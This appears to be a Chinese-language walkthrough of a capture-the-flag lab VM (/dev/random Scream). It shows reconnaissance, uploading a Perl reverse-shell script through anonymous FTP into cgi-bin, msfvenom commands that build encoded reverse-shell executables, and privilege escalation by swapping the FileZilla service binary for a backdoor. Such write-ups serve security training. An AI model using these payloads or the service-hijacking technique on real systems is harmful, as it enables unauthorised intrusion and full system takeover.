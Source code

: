 # 一、信息收集

1. 主机发现，如下，靶机ip为172.16.29.133
   
   ```shell
   sudo arp-scan -l
   ```
   
   ![1.png](./img/devrandom-scream/1.png)

2. 端口扫描，靶机有防火墙，需要使用-Pn参数才能扫描到开放端口
   
   ```shell
   nmap -Pn -p- -sV -sC 172.16.29.133
   ```
   
   ![2.png](./img/devrandom-scream/2.png)

3. 如上，开放了21端口ftp、22端口ssh、23端口telnet，存在未授权访问

# 二、getshell

1. ftp匿名登陆，发现存在三个目录，目录中有不少文件
   
   ![3.png](./img/devrandom-scream/3.png)

2. 经过一番尝试后发现靶机还有个web服务，ftp可以put写入文件到web服务的root根目录下
   
   ![4.png](./img/devrandom-scream/4.png)
   
   ![5.png](./img/devrandom-scream/5.png)

3. 尝试写入一个文件到root/cgi-bin目录下，访问web发现会调用exe程序解析执行
   
   ![6.png](./img/devrandom-scream/6.png)
   
   ![7.png](./img/devrandom-scream/7.png)

4. 可以上传一个windows的反弹shell的pl脚本，浏览器中访问该脚本
   
   ```perl
   use IO::Socket;
   $c=new IO::Socket::INET(PeerAddr,"172.16.29.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;
   ```
   
   ![8.png](./img/devrandom-scream/8.png)

5. 如上，成功getshell

# 三、权限提升

1. systeminfo查看系统信息，如下，是32位的系统
   
   ![9.png](./img/devrandom-scream/9.png)

2. 切换交互式shell
   
   - 使用msf生成反弹shell的可执行文件
     
     ```shell
     msfvenom -p windows/shell_reverse_tcp LHOST=172.16.29.130 LPORT=80 -e   x86/shikata_ga_nai -f exe > shell222.exe
     ```
   
   - 上传到靶机并执行
     
     ![10.png](./img/devrandom-scream/10.png)
   
   - 成功获取到交互式shell
     
     ![11.png](./img/devrandom-scream/11.png)

3. 查看启动的任务，发现有FileZilla Server FTP server，可通过劫持进程来提升权限
   
   ```shell
   net start
   ```
   
   ![12.png](./img/devrandom-scream/12.png)

4. 停止FileZilla Server FTP server
   
   ```shell
   net stop "FileZilla Server FTP server"
   ```

5. 生成一个新的shell后门，并上传到靶机上
   
   ```shell
   msfvenom -p windows/shell_reverse_tcp LHOST=172.16.29.130 LPORT=6666 -e   x86/shikata_ga_nai -f exe > shell333.exe
   ```

6. 将FileZilla server.exe重命名
   
   ```shell
   rename "FileZilla server.exe" "FileZilla server.exe.bak"
   ```

7. 复制shell后门到FileZilla Server目录下并重命名为FileZilla server.exe
   
   ```shell
   copy \www\root\cgi-bin\shell333.exe "FileZilla server.exe"
   ```

8. kali上开启监听，端口为上面反弹shell指定的6666端口，重新启动FileZilla server
   
   ```shell
   net start "FileZilla Server FTP server"
   ```

9. 成功提权
   
   ![13.png](./img/devrandom-scream/13.png)
